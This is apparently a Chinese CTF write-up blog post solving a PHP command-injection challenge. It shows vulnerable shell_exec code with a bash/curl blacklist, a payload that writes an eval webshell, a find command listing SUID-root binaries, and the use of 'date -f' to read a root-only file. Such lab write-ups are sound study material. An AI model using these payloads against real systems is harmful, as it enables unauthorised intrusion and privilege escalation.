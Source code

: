 ```yaml
---
title: '[NewStarCTF 公开赛赛道]So Baby RCE Again'
date: 2025-02-02 22:49:33
tags: 命令执行
categories: 刷题笔记
---
```


## [NewStarCTF 公开赛赛道]So Baby RCE Again

```
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/bash|curl/i',$_GET["cmd"])){
        echo "Hacker!";
    }else{
        shell_exec($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

无回显rce，我们可以通过写马来查看flag

```
?cmd=echo '11111<?php @eval($_POST[1])?>' > webshell.php
```

写入后我们连接蚁剑，但我们好像无法读取flag

![image-20250202230237702](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022302753.png)

用终端读取，提示我们权限不够

![image-20250202230331757](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022303795.png)

我们查看文件权限

![image-20250202230514981](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022305020.png)

我们发现有x权限且属主为root

找到正在系统上运行的所有SUID可执行文件，发现/bin/date有s权限

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/13d98dbd91a7e16fe80a45518b00e681.png)

```
# 查找所有具有SUID权限且属主为root的文件

find / -user root -perm -4000 -print 2>/dev/null
```

利用date命令读取文件，`date -f 文件名`

得到flag

![image-20250202230736833](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022307862.png)
